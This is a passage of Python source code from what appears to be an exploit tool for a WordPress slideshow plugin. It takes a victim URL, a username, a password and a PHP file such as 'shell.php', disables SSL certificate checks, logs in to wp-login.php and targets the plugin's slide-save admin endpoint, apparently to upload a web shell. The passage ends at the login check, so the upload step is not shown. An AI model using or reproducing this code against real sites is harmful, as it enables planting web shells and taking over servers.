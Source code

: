             https://www.facebook.com/homelabit
            https://twitter.com/homelabit
            https://plus.google.com/+HomelabIt1/
    https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww
    """

    commandList = optparse.OptionParser('usage: %prog -t URL -u USER -p PASSWORD -f FILENAME.PHP [--timeout sec]')
    commandList.add_option('-t', '--target', action="store",
                      help="Insert TARGET URL: http[s]://www.victim.com[:PORT]",
                      )
    commandList.add_option('-f', '--file', action="store",
                      help="Insert file name, ex: shell.php",
                      )
    commandList.add_option('-u', '--user', action="store",
                      help="Insert Username",
                      )
    commandList.add_option('-p', '--password', action="store",
                      help="Insert Password",
                      )
    commandList.add_option('--timeout', action="store", default=10, type="int",
                      help="[Timeout Value] - Default 10",
                      )

    options, remainder = commandList.parse_args()

    # Check args
    if not options.target or not options.user or not options.password or not options.file:
        print(banner)
        commandList.print_help()
        sys.exit(1)

    payloadname = checkfile(options.file)
    host = checkurl(options.target)
    username = options.user
    pwd = options.password
    timeout = options.timeout

    print(banner)

    url_login_wp = host+'/wp-login.php'
    url_admin_slideshow = host+'/wp-admin/admin.php?page=slideshow-slides&method=save'

    content_type = 'multipart/form-data; boundary=----------lImIt_of_THE_fIle_eW_$'

    http = httplib2.Http(disable_ssl_certificate_validation=True, timeout=timeout)

    # Wordpress login POST Data
    body = { 'log':username,
             'pwd':pwd,
             'wp-submit':'Login',
             'testcookie':'1' }
    # Wordpress login headers with Cookie
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36',
                'Content-type': 'application/x-www-form-urlencoded',
                'Cookie': 'wordpress_test_cookie=WP+Cookie+check' }
    try:
        response, content = http.request(url_login_wp, 'POST', headers=headers, body=urllib.urlencode(body))
        if len(response['set-cookie'].split(" ")) < 4:
        #if 'httponly' in response['set-cookie'].split(" ")[-1]:
            print '[X] Wrong username or password'